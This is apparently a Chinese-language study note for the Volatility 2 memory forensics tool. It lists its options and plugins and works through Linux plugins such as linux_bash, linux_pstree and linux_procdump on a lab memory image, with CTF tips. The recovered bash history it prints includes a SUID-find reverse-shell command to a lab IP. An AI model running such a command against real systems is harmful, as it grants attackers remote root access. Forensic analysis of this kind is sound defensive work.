


# volatility 2


## 基础选项

```
  -h, --help            显示所有可用选项及其默认值。
                        默认值可在配置文件中设置
                        (/etc/volatilityrc)
  --conf-file=/root/.volatilityrc
                        用户配置文件
  -d, --debug           调试模式
  --plugins=PLUGINS     附加插件目录（用冒号分隔）
  --info                打印所有已注册对象的信息
  --cache-directory=/root/.cache/volatility
                        缓存文件存储目录
  --cache               启用缓存
  --tz=TZ               设置时区（使用pytz或tzset显示时间戳）
  -f FILENAME, --filename=FILENAME
                        要打开的镜像文件名
  --profile=WinXPSP2x86
                        要加载的配置文件名称（使用 --info 查看支持列表）
  -l LOCATION, --location=LOCATION
                        加载地址空间的URN位置
  -w, --write           启用写支持
  --dtb=DTB             DTB地址
  --shift=SHIFT         Mac KASLR 偏移地址
  --output=text         输出格式（支持模块特定格式，详见模块输出选项）
  --output-file=OUTPUT_FILE
                        输出到指定文件
  -v, --verbose         详细输出
  --physical_shift=PHYSICAL_SHIFT
                        Linux 内核物理偏移地址
  --virtual_shift=VIRTUAL_SHIFT
                        Linux 内核虚拟偏移地址
  -g KDBG, --kdbg=KDBG  指定KDBG虚拟地址（注意：对于64位Windows 8及以上系统，这是KdCopyDataBlock的地址）
  --force               强制使用可疑的配置文件
  -k KPCR, --kpcr=KPCR  指定具体的KPCR地址
  --cookie=COOKIE       指定nt!ObHeaderCookie地址（仅适用于Windows 10）
```


## 基础插件

```
地址空间
--------------
AMD64PagedMemory               - 标准 AMD 64 位地址空间。
ArmAddressSpace                - ARM 处理器专用地址空间
FileAddressSpace               - 直接文件地址空间
HPAKAddressSpace               - 支持 HPAK 格式的地址空间
IA32PagedMemory                - 标准 IA-32 分页地址空间
IA32PagedMemoryPae             - 实现 IA-32 PAE 分页机制的地址空间类
LimeAddressSpace               - Lime 格式专用地址空间
LinuxAMD64PagedMemory          - Linux 特有的 AMD 64 位地址空间
MachOAddressSpace              - 支持 mach-o 文件格式的地址空间（用于 atc-ny 内存读取器）
OSXPmemELF                     - 支持 VirtualBox ELF64 核心转储格式的地址空间
QemuCoreDumpElf                - 支持 Qemu ELF32 和 ELF64 核心转储格式的地址空间
SkipDuplicatesAMD64PagedMemory - Windows 8/10 专用的 AMD 64 位地址空间
VMWareAddressSpace             - 支持 VMware 快照（VMSS）和保存状态文件的地址空间
VMWareMetaAddressSpace         - 支持带 VMSN/VMSS 元数据的 VMEM 格式的地址空间
VirtualBoxCoreDumpElf64        - 支持 VirtualBox ELF64 核心转储格式的地址空间
WindowsAMD64PagedMemory        - Windows 专用的 AMD 64 位地址空间
WindowsCrashDumpSpace32        - 支持 Windows 崩溃转储格式（32 位）
WindowsCrashDumpSpace64        - 支持 Windows 崩溃转储格式（64 位）
WindowsCrashDumpSpace64BitMap  - 支持 Windows 位图崩溃转储格式的地址空间
WindowsHiberFileSpace32        - Windows 休眠文件地址空间（32 位）


模块插件
-------
amcache                    - 打印 AmCache 信息
apihooks                   - 检测进程和内核内存中的 API 钩子
atoms                      - 打印会话和窗口站原子表
atomscan                   - 原子表的池扫描器
auditpol                   - 打印注册表 HKLM\SECURITY\Policy\PolAdtEv 的审计策略
bigpools                   - 使用 BigPagePoolScanner 转储大页内存池
bioskbd                    - 从实模式内存读取键盘缓冲区
cachedump                  - 转储内存中的缓存域哈希
callbacks                  - 打印全系统范围的通知例程
clipboard                  - 提取 Windows 剪贴板内容
cmdline                    - 显示进程命令行参数
cmdscan                    - 通过扫描 _COMMAND_HISTORY 提取命令历史
connections                - 打印已开启连接列表（仅限 Windows XP/2003）
connscan                   - TCP 连接的池扫描器
consoles                   - 通过扫描 _CONSOLE_INFORMATION 提取控制台信息
crashinfo                  - 转储崩溃转储信息
deskscan                   - tagDESKTOP（桌面）池扫描器
devicetree                 - 显示设备树
dlldump                    - 从进程地址空间转储 DLL
dlllist                    - 打印各进程加载的 DLL 列表
driverirp                  - 驱动程序 IRP 钩子检测
drivermodule               - 将驱动对象关联到内核模块
driverscan                 - 驱动对象的池扫描器
dumpcerts                  - 转储 RSA 公私钥（SSL）
dumpfiles                  - 提取内存映射和缓存文件
dumpregistry               - 将注册表文件转储到磁盘
editbox                    - 显示编辑控件信息（列表框功能实验性）
envars                     - 显示进程环境变量
eventhooks                 - 打印 Windows 事件钩子详情
evtlogs                    - 提取 Windows 事件日志（仅限 XP/2003）
filescan                   - 文件对象的池扫描器
gahti                      - 转储 USER 句柄类型信息
gditimers                  - 打印已安装的 GDI 计时器和回调
gdt                        - 显示全局描述符表（GDT）
getservicesids             - 从注册表获取服务名并返回计算的 SID
getsids                    - 打印进程所有者 SID
handles                    - 打印各进程的打开句柄列表
hashdump                   - 从内存转储密码哈希（LM/NTLM）
hibinfo                    - 转储休眠文件信息
hivedump                   - 打印注册表配置单元内容
hivelist                   - 打印注册表配置单元列表
hivescan                   - 注册表配置单元的池扫描器
hpakextract                - 从 HPAK 文件提取物理内存
hpakinfo                   - 显示 HPAK 文件信息
idt                        - 显示中断描述符表（IDT）
iehistory                  - 重建 IE 缓存/历史记录
imagecopy                  - 将物理地址空间复制为原始镜像文件
imageinfo                  - 识别镜像信息
impscan                    - 扫描导入函数调用
joblinks                   - 打印进程作业链接信息
kdbgscan                   - 搜索并转储潜在 KDBG 值
kpcrscan                   - 搜索并转储潜在 KPCR 值
ldrmodules                 - 检测未链接的 DLL
limeinfo                   - 转储 Lime 文件格式信息
linux_apihooks             - 检查用户态 API 钩子
linux_arp                  - 打印 ARP 表
linux_aslr_shift           - 自动检测 Linux ASLR 偏移值
linux_banner               - 打印 Linux 系统标识信息
linux_bash                 - 从 bash 进程内存恢复历史命令
linux_bash_env             - 恢复进程动态环境变量
linux_bash_hash            - 从 bash 进程内存恢复哈希表
linux_check_afinfo         - 验证网络协议操作函数指针
linux_check_creds          - 检查共享凭证结构的进程
linux_check_evt_arm        - 通过异常向量表检测系统调用表钩子
linux_check_fop            - 检查文件操作结构的后门修改
linux_check_idt            - 检查 IDT 篡改情况
linux_check_inline_kernel  - 检测内核内联钩子
linux_check_modules        - 比较模块列表与 sysfs 信息
linux_check_syscall        - 检查系统调用表篡改
linux_check_syscall_arm    - 检查 ARM 系统调用表篡改
linux_check_tty            - 检查 TTY 设备钩子
linux_cpuinfo              - 打印各活动处理器信息
linux_dentry_cache         - 从目录项缓存收集文件
linux_dmesg                - 收集 dmesg 缓冲区内容
linux_dump_map             - 将选定内存映射写入磁盘
linux_dynamic_env          - 恢复进程动态环境变量
linux_elfs                 - 在进程映射中查找 ELF 二进制文件
linux_enumerate_files      - 枚举文件系统缓存引用的文件
linux_find_file            - 列出并恢复内存中的文件
linux_getcwd               - 列出各进程当前工作目录
linux_hidden_modules       - 挖掘隐藏的内核模块
linux_ifconfig             - 收集活动网络接口信息
linux_info_regs            - 类似 GDB 的 "info registers" 命令
linux_iomem                - 提供类似 /proc/iomem 的输出
linux_kernel_opened_files  - 列出内核打开的文件
linux_keyboard_notifiers   - 解析键盘通知器调用链
linux_ldrmodules           - 对比进程映射与 libdl 的库列表
linux_library_list         - 列出进程加载的库
linux_librarydump          - 将进程内存中的共享库转储到磁盘
linux_list_raw             - 列出使用混杂模式套接字的应用程序
linux_lsmod                - 收集已加载内核模块
linux_lsof                 - 列出文件描述符及其路径
linux_malfind              - 查找可疑的进程内存映射
linux_memmap               - 转储 Linux 任务的内存映射
linux_moddump              - 提取已加载内核模块
linux_mount                - 收集挂载的文件系统/设备
linux_mount_cache          - 从 kmem_cache 收集挂载信息
linux_netfilter            - 列出 Netfilter 钩子
linux_netscan              - 扫描网络连接结构
linux_netstat              - 列出打开的网络套接字
linux_pidhashtable         - 通过 PID 哈希表枚举进程
linux_pkt_queues           - 将进程数据包队列写入磁盘
linux_plthook              - 扫描 ELF 二进制 PLT 的非必要映像钩子
linux_proc_maps            - 收集进程内存映射信息
linux_proc_maps_rb         - 通过红黑树收集进程内存映射
linux_procdump             - 将进程可执行镜像转储到磁盘
linux_process_hollow       - 检测进程挖空迹象
linux_psaux                - 收集带完整命令行参数的进程
linux_psenv                - 收集带静态环境变量的进程
linux_pslist               - 通过 task_struct->task 列表收集活动任务
linux_pslist_cache         - 从 kmem_cache 收集任务
linux_psscan               - 在物理内存中扫描进程
linux_pstree               - 以树状显示进程父子关系
linux_psxview              - 通过多进程列表发现隐藏进程
linux_recover_filesystem   - 从内存恢复完整缓存文件系统
linux_route_cache          - 从内存恢复路由缓存
linux_sk_buff_cache        - 从 sk_buff kmem_cache 恢复网络包
linux_slabinfo             - 模拟运行系统的 /proc/slabinfo 输出
linux_strings              - 物理偏移与虚拟地址匹配（耗时，详细输出）
linux_threads              - 打印进程的线程信息
linux_tmpfs                - 从内存恢复 tmpfs 文件系统
linux_truecrypt_passphrase - 恢复 TrueCrypt 缓存的密码短语
linux_vma_cache            - 从 vm_area_struct 缓存收集 VMA
linux_volshell             - 在 Linux 内存镜像中开启交互式 shell
linux_yarascan             - 使用 Yara 签名扫描 Linux 内存镜像
lsadump                    - 从注册表转储（解密）LSA 机密
mac_adium                  - 列出 Adium 聊天信息
mac_apihooks               - 检查进程中的 API 钩子
mac_apihooks_kernel        - 检测系统调用和内核函数钩子
mac_arp                    - 打印 ARP 表
mac_bash                   - 从 bash 进程内存恢复历史命令
mac_bash_env               - 恢复 bash 环境变量
mac_bash_hash              - 从 bash 进程内存恢复哈希表
mac_calendar               - 从日历应用获取日程事件
mac_check_fop              - 验证文件操作指针
mac_check_mig_table        - 列出内核 MIG 表条目
mac_check_syscall_shadow   - 检测影子系统调用表
mac_check_syscalls         - 检查系统调用表条目钩子
mac_check_sysctl           - 检查未知的 sysctl 处理函数
mac_check_trap_table       - 检查 mach 陷阱表条目钩子
mac_compressed_swap        - 打印 macOS 内存压缩统计并转储压缩页
mac_contacts               - 从通讯录应用获取联系人
mac_dead_procs             - 打印已终止/释放的进程
mac_dead_sockets           - 打印已终止/释放的网络套接字
mac_dead_vnodes            - 列出已释放的 vnode 结构
mac_devfs                  - 列出文件缓存中的文件
mac_dmesg                  - 打印内核调试缓冲区内容
mac_dump_file              - 转储指定文件
mac_dump_maps              - 转储进程的内存映射
mac_dyld_maps              - 通过 dyld 数据结构获取进程内存映射
mac_find_aslr_shift        - 查找 10.8+ 系统的 ASLR 偏移值
mac_get_profile            - 自动检测 macOS 系统配置
mac_ifconfig               - 列出所有设备的网络接口信息
mac_interest_handlers      - 列出 IOKit 兴趣处理函数
mac_ip_filters             - 报告任何挂钩的 IP 过滤器
mac_kernel_classes         - 列出内核加载的 C++ 类
mac_kevents                - 显示进程父子关系
mac_keychaindump           - 恢复可能的钥匙串密钥（需配合 chainbreaker 使用）
mac_ldrmodules             - 对比进程映射与 libdl 的库列表
mac_librarydump            - 转储进程可执行文件
mac_list_files             - 列出文件缓存中的文件
mac_list_kauth_listeners   - 列出 Kauth 范围监听器
mac_list_kauth_scopes      - 列出 Kauth 范围及其状态
mac_list_raw               - 列出使用混杂模式套接字的应用程序
mac_list_sessions          - 枚举会话信息
mac_list_zones             - 打印活动内存分区
mac_lsmod                  - 列出已加载内核模块
mac_lsmod_iokit            - 通过 IOKit 列出内核模块
mac_lsmod_kext_map         - 列出已加载内核模块
mac_lsof                   - 列出各进程打开的文件
mac_machine_info           - 打印硬件信息
mac_malfind                - 查找可疑的进程内存映射
mac_memdump                - 将可寻址内存页转储到文件
mac_moddump                - 将指定内核扩展写入磁盘
mac_mount                  - 打印已挂载设备信息
mac_netstat                - 列出活跃的网络连接
mac_network_conns          - 列出内核网络结构建立的连接
mac_notesapp               - 查找备忘录应用内容
mac_notifiers              - 检测植入 I/O Kit 的 rootkit（如 LogKext）
mac_orphan_threads         - 列出未关联已知模块/进程的线程
mac_pgrp_hash_table        - 遍历进程组哈希表
mac_pid_hash_table         - 遍历 PID 哈希表
mac_print_boot_cmdline     - 打印内核启动参数
mac_proc_maps              - 获取进程内存映射
mac_procdump               - 转储进程可执行文件
mac_psaux                  - 打印带用户态参数（**argv）的进程
mac_psenv                  - 打印带用户态环境变量（**envp）的进程
mac_pslist                 - 列出运行中的进程
mac_pstree                 - 显示进程父子关系
mac_psxview                - 通过多进程列表发现隐藏进程
mac_recover_filesystem     - 恢复缓存文件系统
mac_route                  - 打印路由表
mac_socket_filters         - 报告套接字过滤器
mac_strings                - 物理偏移与虚拟地址匹配（耗时，详细输出）
mac_tasks                  - 列出活动任务
mac_threads                - 列出进程线程
mac_threads_simple         - 列出线程及其启动时间和优先级
mac_timers                 - 报告内核驱动设置的计时器
mac_trustedbsd             - 列出恶意 TrustedBSD 策略
mac_version                - 打印 macOS 版本
mac_vfsevents              - 列出过滤文件系统事件的进程
mac_volshell               - 在内存镜像中开启交互式 shell
mac_yarascan               - 使用 Yara 签名扫描内存
machoinfo                  - 转储 Mach-O 文件格式信息
malfind                    - 查找隐藏和注入的代码
mbrparser                  - 扫描并解析潜在的主引导记录（MBR）
memdump                    - 转储进程可寻址内存
memmap                     - 打印内存映射
messagehooks               - 列出桌面和线程窗口消息钩子
mftparser                  - 扫描并解析潜在的 MFT 条目
moddump                    - 将内核驱动转储为可执行样本
modscan                    - 内核模块池扫描器
modules                    - 列出已加载的内核模块
multiscan                  - 多重对象扫描器
mutantscan                 - 互斥体对象的池扫描器
netscan                    - 扫描 Vista 及以上系统的网络连接和套接字
notepad                    - 列出记事本当前显示文本
objtypescan                - 扫描 Windows 对象类型对象
patcher                    - 基于页面扫描修补内存
poolpeek                   - 可配置的池扫描器插件
pooltracker                - 显示内存池标签使用摘要
printkey                   - 打印注册表键及其子键和值
privs                      - 显示进程权限
procdump                   - 将进程转储为可执行样本
pslist                     - 通过 EPROCESS 列表列出所有运行中的进程
psscan                     - 进程对象的池扫描器
pstree                     - 以树状列出进程
psxview                    - 通过多进程列表发现隐藏进程
qemuinfo                   - 转储 Qemu 信息
raw2dmp                    - 将物理内存样本转换为 WinDbg 崩溃转储
screenshot                 - 基于 GDI 窗口保存伪屏幕截图
servicediff                - 列出 Windows 服务（类似 Plugx）
sessions                   - 列出用户登录会话（_MM_SESSION_SPACE）详细信息
shellbags                  - 打印 ShellBags 信息
shimcache                  - 解析应用兼容性 Shim 缓存注册表项
shutdowntime               - 打印注册表中的系统关机时间
sockets                    - 列示打开的套接字
sockscan                   - TCP 套接字对象的池扫描器
ssdt                       - 显示 SSDT（系统服务描述符表）条目
strings                    - 物理偏移与虚拟地址匹配（耗时，详细输出）
svcscan                    - 扫描 Windows 服务
symlinkscan                - 符号链接对象的池扫描器
thrdscan                   - 线程对象的池扫描器
threads                    - 分析 _ETHREAD 和 _KTHREAD 结构
timeliner                  - 基于内存中的各类痕迹创建时间线
timers                     - 打印内核计时器及关联模块的 DPC
truecryptmaster            - 恢复 TrueCrypt 7.1a 主密钥
truecryptpassphrase        - TrueCrypt 缓存密码查找器
truecryptsummary           - TrueCrypt 摘要信息
unloadedmodules            - 列出已卸载的模块
userassist                 - 打印用户助手注册表项及信息
userhandles                - 转储 USER 句柄表
vaddump                    - 将 VAD 段转储到文件
vadinfo                    - 转储 VAD 信息
vadtree                    - 以树状显示 VAD 结构
vadwalk                    - 遍历 VAD 树
vboxinfo                   - 转储 VirtualBox 信息
verinfo                    - 打印 PE 镜像的版本信息
vmwareinfo                 - 转储 VMware VMSS/VMSN 信息
volshell                   - 在内存镜像中开启交互式 shell
win10cookie                - 查找 Windows 10 的 ObHeaderCookie 值
windows                    - 打印桌面窗口（详细信息）
wintree                    - 按 Z-Order 打印桌面窗口树
wndscan                    - 窗口站的池扫描器
yarascan                   - 使用 Yara 签名扫描进程或内核内存


扫描器检查
--------------
CheckPoolSize          - 检查内存池块大小
CheckPoolType          - 检查内存池类型
KPCRScannerCheck       - 通过自引用指针查找 KPCR
MultiPrefixFinderCheck - 单页内多字符串前缀搜索（基于偏移定位）
MultiStringFinderCheck - 单页内多字符串搜索
PoolTagCheck           - 内存池标签存在性检测
```


## Linux


### linux_bash

从 bash 进程内存中恢复 bash 历史记录

```
vol2 -f ... --profile=... linux_bash [options]

      -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
      -P, --printunalloc    打印未分配条目（建议重定向到文件）
      -H HISTORY_LIST, --history_list=HISTORY_LIST
                            设置历史列表地址 - 参见Volatility文档
      -A, --scan_all        扫描所有进程（不仅限于名为bash的进程）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_bash
```

```
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    1831 bash                 2023-09-08 03:14:52 UTC+0000   find / -perm -4000 -exec ls -la {} \; 2>/dev/null 
    1831 bash                 2023-09-08 03:14:52 UTC+0000   0
    1831 bash                 2023-09-08 03:15:05 UTC+0000   sudo su
    1831 bash                 2023-09-08 03:15:29 UTC+0000   find /etc/passwd -exec bash -ip >& /dev/tcp/192.168.29.129/7777 0>&1 \;
    2020 bash                 2023-09-08 03:15:33 UTC+0000   whoami
...
```


### linux_bash_env

```
vol2 -f ... --profile=...  linux_bash_env [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_bash_env
```

```
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Vars
-------- -------------------- ----
       1 systemd              
       2 kthreadd             
       3 rcu_gp               
       4 rcu_par_gp           
       6 kworker/0:0H         
       9 mm_percpu_wq         
      10 ksoftirqd/0          
```


### linux_bash_hash

```
vol2 -f ... --profile=...  linux_bash_hash [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_bash_hash
```

```
Volatility Foundation Volatility Framework 2.6.1
Pid      Name                 Hits   Command                   Full Path
-------- -------------------- ------ ------------------------- ---------
    1831 bash                      1 sudo                      /usr/bin/sudo
    1831 bash                      2 find                      /usr/bin/find
    2020 bash                      2 cat                       /bin/cat
    2020 bash                      1 cp                        /bin/cp
    2020 bash                      1 whoami                    /usr/bin/whoami
    2093 bash                      1 nano                      /bin/nano
    2093 bash                      1 vim                       /usr/bin/vim
    2093 bash                      3 ls                        /bin/ls
    2093 bash                      1 mesg                      /usr/bin/mesg
    2196 bash                      1 unzip                     /usr/bin/unzip
    2196 bash                      2 ls                        /bin/ls
    2196 bash                      1 mesg                      /usr/bin/mesg
```


### linux_pslist

```
vol2 -f ... --profile=... linux_pslist [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_pslist
```


### linux_psscan

在物理内存中扫描进程

```
vol2 -f ... --profile=... linux_psscan
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_psscan
```


### linux_pidhashtable

通过 PID 哈希表枚举进程

```
vol2 -f ... --profile=... linux_pidhashtable [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_pidhashtable
```


### linux_pstree

```
vol2 -f ... --profile=... linux_pstree [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


**示例**

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_pstree -p 1831
```

```
Volatility Foundation Volatility Framework 2.6.1
Name                 Pid             Uid            
bash                 1831            1000           
.find                2019            1000           
..bash               2020            1000           
```

UID（用户标识符）是 Linux 系统中用于唯一标识用户的数字。每个进程在运行时都会关联一个 UID，表示其所属用户（例如 `root` 的 UID 是 `0`，普通用户可能是 `1000` 等）。

Volatility 的 `linux_pstree` 插件可能默认在**进程继承父进程 UID 时省略显示**，仅在 UID 发生变化时标注。

- `sshd 728`（父进程，UID 默认是 `0`，即 `root`）未显示 UID。
- 子进程 `sshd 1830` 切换到了普通用户（UID `1000`），因此显式标注。


**做题小技巧**

首先使用 linux_pstree 不指定 pid，显示完整的进程数

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_pstree
```

寻找 sshd 的主守护进程（ **.sshd PID 728**）

```
.sshd                728                            
..sshd               1761                           
...sshd              1830            1000           
....bash             1831            1000           
.....find            2019            1000           
......bash           2020            1000           
..sshd               2034                           
...bash              2093                           
....powershell       2132                           
.....gpg             2368                           
....nano             2148                           
..sshd               2149                           
...bash              2196                           
....unzip            2221                           
..sshd               2222                           
...bash              2288                           
....lmg              2333                           
.....avml-x86_64     2364                           
..sshd               2224                           
...sftp-server       2331                           
```


**主守护进程**（PID 728）

- 这是 SSH 服务的**主进程**，通常以 `root` 权限运行（UID 未显示，默认为 `0`）。
- 负责监听 SSH 端口（默认 22），接受新连接请求。
- 不直接处理用户认证或会话，仅用于派生子进程。

**预认证子进程（PID 1761）**

- 主进程（728）在接受新连接后，会 `fork` 出该子进程（1761）。
- 负责处理**初始连接协商**和**密钥交换**（如协议版本、加密算法协商）。
- 仍然以 `root` 权限运行（UID 未显示），但尚未关联具体用户。

**用户会话进程（PID 1830）**

- 如果用户**以普通用户登录**，则需要启动该子进程。
- 此进程切换至普通用户权限（UID `1000`）
- 此子进程负责启动用户的登录会话（如 `bash` 或其他 shell）


如果用于以 root 用户登录，则由**预认证子进程**直接启动 bash 或其他 shell。

以普通用户登录

```
.sshd                728                            
..sshd               1761                           
...sshd              1830            1000           
....bash             1831            1000           
```

以 root 用户登录

```
.sshd                728                            
..sshd               2034                           
...bash              2093                           
```


通过列出**主守护进程**的进程数，就可以知道当前存在多少个 ssh 连接，以及每个连接登录时使用的 UID。

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_pstree -p 728
```

```
Volatility Foundation Volatility Framework 2.6.1
Name                 Pid             Uid            
sshd                 728                            
.sshd                1761                           
..sshd               1830            1000           
...bash              1831            1000           
....find             2019            1000           
.....bash            2020            1000           
.sshd                2034                           
..bash               2093                           
...powershell        2132                           
....gpg              2368                           
...nano              2148                           
.sshd                2149                           
..bash               2196                           
...unzip             2221                           
.sshd                2222                           
..bash               2288                           
...lmg               2333                           
....avml-x86_64      2364                           
.sshd                2224                           
..sftp-server        2331                           
```


### linux_psaux

收集带完整命令行参数的进程

```
vol2 -f ... --profile=... linux_pslist [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_psaux
```

```
Volatility Foundation Volatility Framework 2.6.1
Pid    Uid    Gid    Arguments                                                       
1      0      0      /sbin/init splash                                               
2      0      0      [kthreadd]                                                      
...
606    0      0      /usr/sbin/cron -f                                               
610    0      0      /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
611    102    106    /usr/sbin/rsyslogd -n                                           
```


### linux_psenv

收集带静态环境变量的进程

```
vol2 -f ... --profile=... linux_psenv
```


示例

```
Name   Pid    Environment 
systemd           1      HOME=/ init=/sbin/init NETWORK_SKIP_ENSLAVED= recovery= TERM=linux drop_caps= BOOT_IMAGE=/boot/vmlinuz-5.4.0-84-generic PATH=/sbin:/usr/sbin:/bin:/usr/bin PWD=/ rootmnt=/root
sshd              728    LANG=en_US.UTF-8 LC_ADDRESS=zh_CN.UTF-8 LC_IDENTIFICATION=zh_CN.UTF-8 LC_MEASUREMENT=zh_CN.UTF-8 LC_MONETARY=zh_CN.UTF-8 LC_NAME=zh_CN.UTF-8 LC_NUMERIC=zh_CN.UTF-8 LC_PAPER=zh_CN.UTF-8 LC_TELEPHONE=zh_CN.UTF-8 LC_TIME=zh_CN.UTF-8 PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin NOTIFY_SOCKET=/run/systemd/notify INVOCATION_ID=ed3d27f1ef1c454e81c523b96d4e1403 JOURNAL_STREAM=9:33456 SSHD_OPTS=
find              2019   LC_MEASUREMENT=zh_CN.UTF-8 SSH_CONNECTION=192.168.29.1 57332 192.168.29.150 22 LESSCLOSE=/usr/bin/lesspipe %s %s LC_PAPER=zh_CN.UTF-8 LC_MONETARY=zh_CN.UTF-8 LANG=en_US.UTF-8 LC_NAME=zh_CN.UTF-8 XDG_SESSION_ID=4 USER=hil PWD=/home/hil HOME=/home/hil SSH_CLIENT=192.168.29.1 57332 22 XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop LC_ADDRESS=zh_CN.UTF-8 LC_NUMERIC=zh_CN.UTF-8 SSH_TTY=/dev/pts/1 MAIL=/var/mail/hil TERM=xterm-256color SHELL=/bin/bash SHLVL=1 LC_TELEPHONE=zh_CN.UTF-8 LOGNAME=hil XDG_RUNTIME_DIR=/run/user/1000 PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin LC_IDENTIFICATION=zh_CN.UTF-8 LESSOPEN=| /usr/bin/lesspipe %s LC_TIME=zh_CN.UTF-8 _=/usr/bin/find

```


### linux_proc_maps(_rb)

**linux_proc_maps**：收集进程内存映射信息

**linux_proc_maps_rb**：通过红黑树收集进程内存映射

```
vol2 -f ... --profile=... linux_proc_maps(_rb) [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


| 插件                   | 依赖的内核数据结构             | 适用内核版本          |
| :--------------------- | :----------------------------- | :-------------------- |
| **linux_proc_maps**    | 基于 **vm_area_struct** 链表   | 旧内核（如 4.x 之前） |
| **linux_proc_maps_rb** | 基于 **vm_area_struct** 红黑树 | 新内核（4.x 及之后）  |


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_proc_maps_rb
```


### linux_procdump

将进程可执行镜像转储到磁盘

```
vol2 -f ... --profile=... linux_procdump -p [pid] -D [directory]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
  						默认导出所有进程可执行镜像转储到磁盘
  -D DUMP_DIR, --dump-dir=DUMP_DIR
                        输出目录
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_procdump -p 728 -D out
```

```
Offset             Name                 Pid             Address            Output File
------------------ -------------------- --------------- ------------------ -----------
0xffff90ee345ddd00 sshd                 728             0x000055664f62b000 out/sshd.728.0x55664f62b000
```

```
file sshd.728.0x55664f62b000

sshd.728.0x55664f62b000: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, stripped
```


### linux_dump_map

将选定内存映射写入磁盘

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_dump_map

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
  -s VMA, --vma=VMA     按VMA起始地址过滤
  -D DUMP_DIR, --dump-dir=DUMP_DIR
                        输出目录
```


示例

收集 sshd 主进程的 proc 内存映射信息

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_proc_maps_rb -p 728
```


文件路径 **/lib/x86_64-linux-gnu/libnss_files-2.27.so** 映射的地址为 **0x00007ff815594000 0x00007ff81559f000**，使用 **linux_dump_map** 插件导出

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_dump_map -s 0x00007ff815594000 -D out
```

```
Task       VM Start           VM End                         Length Path
---------- ------------------ ------------------ ------------------ ----
       728 0x00007ff815594000 0x00007ff81559f000             0xb000 out/task.728.0x7ff815594000.vma
```

```
file task.728.0x7ff815594000.vma

task.728.0x7ff815594000.vma: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, missing section headers at 47504
```


Linux进程的每个**虚拟内存区域 (VMA)** 在内核中都以完整的**结构体 (vm_area_struct)** 存储，每个节点都**包含起始地址和结束地址**，所以只需要提供起始地址即可。


### linux_getcwd

列出每个进程的当前工作目录

```
vol2 -f ... --profile=... linux_getcwd [options]

  -p PID, --pid=PID     对指定进程ID进行操作（逗号分隔）
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_getcwd
```

```
Name              Pid      CWD
----------------- -------- ---
systemd                  1 
kthreadd                 2 
rcu_gp                   3 
...
cron                   606 /var/spool/cron
...
gvfsd                 1404 /home/hil
gvfsd-fuse            1409 /home/hil
at-spi-bus-laun       1418 /home/hil
dbus-daemon           1423 /home/hil
```


### linux_arp

打印 ARP 表

```
vol2 -f ... --profile=... linux_arp
```


示例

```
vol2 -f linux --profile=Linuxubuntu18x64 linux_arp
```

```
Volatility Foundation Volatility Framework 2.6.1
[192.168.29.129                            ] at 00:0c:29:b9:5e:e2    on ens33
[192.168.29.2                              ] at 00:50:56:f9:e4:62    on ens33
[192.168.29.255                            ] at ff:ff:ff:ff:ff:ff    on ens33
[224.0.0.251                               ] at 01:00:5e:00:00:fb    on ens33
[0.0.0.0                                   ] at 00:00:00:00:00:00    on lo
[192.168.29.1                              ] at 00:50:56:c0:00:08    on ens33
[255.255.255.255                           ] at ff:ff:ff:ff:ff:ff    on ens33
